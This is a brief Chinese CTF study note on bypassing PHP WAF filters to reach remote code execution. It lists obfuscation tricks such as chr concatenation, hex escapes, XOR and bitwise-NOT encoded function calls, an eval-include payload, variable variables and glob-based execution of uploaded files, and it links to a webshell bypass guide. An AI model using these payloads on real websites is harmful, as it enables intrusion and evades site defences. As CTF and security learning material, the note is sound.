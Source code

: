 tags:: CTF/RCE, CTF/PHP/WAF绕过， CTF/PHP/无字母数字RCE

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- 使用不可见字符作为变量名
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTF/PHP/无字母数字RCE]]
#### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTF/PHP/无字母数字RCE]]
- [[CTF/PHP/特殊标签]]
- # webshell绕WAF技巧
	- https://github.com/AabyssZG/WebShell-Bypass-Guide